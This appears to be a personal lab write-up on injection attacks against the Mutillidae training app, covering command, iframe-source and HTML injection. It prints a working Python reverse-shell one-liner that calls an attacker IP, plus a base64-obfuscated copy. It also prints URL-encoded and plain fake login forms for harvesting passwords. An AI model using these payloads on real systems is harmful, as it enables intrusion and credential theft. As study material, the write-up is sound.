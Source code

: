 <h1>Other forms of Injection</h1>
<p>
	The purpose of injection remains the same , injecting into an interpreted context for causing the application to perform an unintended functionality.
</p>
<ol>
<li><h2>Command Injection:</h2>
<p> Command injection referes to the attack mechanism in which an attacker can inject any command into the 
underlying OS and compromise the back-end system. Mutillidae for me is hosted on a Linux server, so will be using UNIX commands for the same. Getting shell access on the underlying server system is often the jackpot to any attacker. We can create persistent backdoors with the help of metasploit.
</p>
<ul>
<li>
<h3>Method 1:</h3>
Download a php backdoor via wget using the command injection flaw
And then use that backdoor. 
Catch: /var/www should be writeable
If .htacess is modifiable, we can modify .htacess and make /var/www writeable
</li>
<li><h3>Method 2:Netcat shell</h3>
Use Netcat with <b>"-e"</b> option to allow for command execution after connect.
The -e executes whatever we place in after the parameter. In this case we want to spawn a 
bash shell on tcp connect. 
However, this option is not present on many traditional netcat installations
What to do in this case?
Well we can go for a custom shell in a language of our choice
</li> 
<li><h3>Method 3:Python shell(any language installed on backend)</h3>
Set up a listener on attacker machine
<pre>
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.13.150',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
</pre>
For obfuscation , we could also base64 encode and decode string
python -c "exec('aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\n4oCYMTkyLjE2OC4xMy4xNTDigJksOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Q\nb3BlbihzLnJlY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0\nZGVycj1zdWJwcm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Mu\nc3Rkb3V0LnJlYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'.decode('base64'))"
</li>
<li><h3>Method-4: Meterpreter Shell</h3>
Deploying a Meterpreter shell is one way to create a well obfuscated persisitent backdoor to any OS we have shell acess on.How to create and deploy a meterpreter shell is a different and vast topic altogether.
</li>
</ul>
<li><h2>Frame Source injection</h2>
	Similar to a Remote file inclusion vulnerability. We can include any special characters once they  are URL encoded to cause an XSS attack on the site. We can include any iframe of our choice such as a malicious form and then steal user credentials or make cross-domain requests. We could inject a remote page into the src of the iframe.
	<p> iframe sources should never be allowed to be controlled by user input, as the iframe can load potential malware from other site. There are other security risks as well. I found this blog very helpful.
	<a href="https://stackoverflow.com/questions/7289139/why-are-iframes-considered-dangerous-and-a-security-risk?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa">Why Iframes pose a security risk?</a>
	We can corrupt the iframe src to load xss attacking page from our server or even an AJAX request to our site. We can inject this to the vulnerable parameter and let the fun unroll, or even a remote html page from the attacking server of our choice. 
	<pre>
		%3Ch1%3ESession+Expired%3C%2Fh1%3E%0D%0A%3Cform+action%3D%22Marale%22%3E%0D%0A%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22password%22%2F%3E%0D%0A%3Cinput+name%3D%22name%22+placeholder%3D%22name%22%2F%3E%0D%0A%3Cinput+type%3D%22submit%22%2F%3E%0D%0A%3C%2Fform%3E%3C%21--
	</pre> 
</li>
<li><h2>HTML Injection </h2>
	When there is a vulnerability in the application which allow you to inject HTML into code.
	This can cause the client to visit a vulnerable "GET" URL and steal Non-http cookies or reveal csrf token to an attacker via an Ajax request. There are a multitude ways this can be exploited.
</br>
	Also, some of these require different contexts , such as those when modifying things such as the HTTP headers, as the victim will not change these to attack himself if the HTML injected is not stored but reflected back. In case of submissions via POST request, the POST requests now can be stored in a clickable link which can be visited via DATA URI.Also, if a site is vulnerable to HTMLi ,it most likely is vulnerable to Javascript Injection as well 
	<ul>
		<li><h3>Basic</h3>
		<p>Simple case, where the input fields visible are vulnerable to HTML injection. You may use any of the web pages, <b>"Add to your Blog"</b> is what I have exploited. Make sure not to use single quotes or else the SQL query will explode</p>
		<pre>
			<code>
<form action="/attacked">
<input name="user"/>
<input id='ps' type="password" name="pass"/>
<button type="submit">Register</button>
</form>
</code>
		</pre>
	</li>
	<li>
		<h3>Via HTTP Headers</h3>
		<p>
			These exploits can work under a man in the middle the attack, or a clever manipulation of the iframe header to load the web page silently in the background. The target page here is DNS lookup page. We must always check the context and filters on the 
			Using Burp intercept the outgoing request.
		</p>
		<pre>
		</pre>
	</li>
	<li>DOM Manipulation</li>
	<li>Cookie Manipulation</li>
	<li>HTTP Parameter Pollution</li>
	</ul>
</li>



